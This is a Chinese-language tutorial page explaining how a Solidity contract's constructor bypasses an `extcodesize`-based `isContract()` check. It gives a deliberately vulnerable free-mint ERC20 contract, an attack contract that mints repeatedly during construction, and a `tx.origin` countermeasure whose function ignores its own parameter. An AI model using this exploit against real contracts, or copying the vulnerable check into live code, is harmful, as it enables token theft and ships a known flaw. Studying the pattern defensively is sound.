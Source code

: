 ```yaml
---
title: 绕过智能合约检测
displayed_sidebar: generalSidebar
---
```


许多免费铸造的项目使用 `isContract()` 方法限制对外部账户（EOAs）的访问以及限制智能合约的交互。 此方法使用 `extcodesize` 来决定地址运行时 `bytecode` 长度。 如果大于零，则被视为智能合约；否则，它被视为EOA。

```solidity
    // Using extcodesize to check if an address is a contract
    function checkContract(address account) public view returns (bool) {
        uint size;
        assembly {
            size := extcodesize(account)
        }
        return size > 0;
    }
```

然而，由于在智能合约创建期间，运行时`bytecode`尚未存储在地址上，所以`bytecode`的长度为零，所以存在潜在的漏洞。 如果我们将逻辑存放在构造器中，我们可以借此绕过`isContract()`检查。

**利用漏洞的示例**

在下面的例子中，`FreemintERC20`合同使用`checkContract()`函数来防止智能合约执行它的`mintTokens()`函数，以防止自动大量铸造。 每次调用`mintTokens()`都会铸造100个通证。

```solidity
// Using extcodesize to check if an address is a contract
contract FreemintERC20 is ERC20 {
    constructor() ERC20("Token", "TKN") {}

    function checkContract(address account) public view returns (bool) {
        uint size;
        assembly {
            size := extcodesize(account)
        }
        return size > 0;
    }

    // mint function can only be called by non-contract addresses (vulnerable)
    function mintTokens() public {
        require(!checkContract(msg.sender), "Contracts are not allowed!");
        _mint(msg.sender, 100);
    }
}
```

我们创建一个智能合约用于攻击，并在构造器中多次调用`mintTokens()`代码：

```solidity
// Exploiting constructor characteristics for attacks
contract AttackContract {
    bool public detectedAsContract;
    address public targetContract;

    // During contract creation, extcodesize is 0, thus bypassing isContract() checks.
    constructor(address addr) {
        targetContract = addr;
        detectedAsContract = FreemintERC20(addr).checkContract(address(this));
        for(uint i; i < 10; i++){
            FreemintERC20(addr).mintTokens();
        }
    }

    // After contract deployment, extcodesize > 0, isContract() will detect
    function tryMint() external {
        FreemintERC20(targetContract).mintTokens();
    }
}
```

在这个智能合约中，通过调用构造函数中的`mintTokens()`方法可以绕过`isContract()`检查，并铸造通证。 状态变量 `detectedAsContract` 在构造器中将被设置为`false`。 部署后，`runtime bytecode` 存储在智能合约中，并且 `extdesize > 0` , 因此当调用 `mintTokens()`时，`checkContract()` 会成功地阻止铸造。

**预防措施**

我们可以使用 `(tx.origin == msg.sender)` 来确定调用者是否是智能合约。 如果调用者是EOA，那么`tx.origin`和`msg.sender`将是相等的；如果他们不相等，则调用者是智能合约。

```solidity
function realContractCheck(address account) public view returns (bool) {
    return (tx.origin == msg.sender);
}
```
